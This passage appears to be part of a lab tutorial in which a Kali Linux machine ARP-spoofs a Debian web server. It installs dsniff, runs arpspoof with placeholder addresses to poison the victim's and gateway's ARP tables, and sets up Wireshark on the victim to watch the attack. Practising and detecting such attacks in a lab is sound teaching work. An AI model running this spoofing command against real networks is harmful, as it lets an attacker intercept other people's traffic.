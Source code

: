 > Replace <IP_kali> with the IP address you obtained for the Kali machine.

*Graphical example of how pings look when connected*



### Step 3: ARP Spoofing Practice

To carry out this practice, we will use arpspoof. This tool is used to send spoofed ARP packets to the network, making a device (like the Debian machine) believe that the attacker's MAC address (Kali Linux) is the MAC address of the gateway (router). This can be verified by observing the ARP tables on the Debian machine before and after running arpspoof.

#### On the Kali Linux Machine (Attacker):

* [ ] Install arpspoof:

```bash
sudo apt update
sudo apt install dsniff
```

> *Note: arpspoof is part of the dsniff package..*

 * [ ] Verify if arpspoof is installed:

 ```bash
sudo arpspoof -h
```

* [ ] Run arpspoof to poison the ARP tables of the Debian machine and the gateway:

```bash
sudo arpspoof -i <interfaz_kali> -t <IP_debian> <gateway>
```

* -i <kali_interface>: Specifies the network interface from which ARP packets will be sent, e.g., eth0.
* -t <IP_debian>: Specifies the victim's IP address (the Debian machine in this case).
* <gateway>: Specifies the gateway's IP address. (initially configured in the /etc/network/interfaces file, it is the same for both machines)

#### Monitor with Wireshark on the Debian Machine (Web Server):

Wireshark is ideal for analyzing network traffic, identifying possible attacks, and monitoring security in a network environment.

* [ ] Install Wireshark:

```bash
sudo apt update
sudo apt install wireshark
```

During the installation, you might be asked if non-root users should be able to capture packets. Select "Yes". If you completed the installation without this setting, you can configure it later with:

```bash
sudo dpkg-reconfigure wireshark-common
```
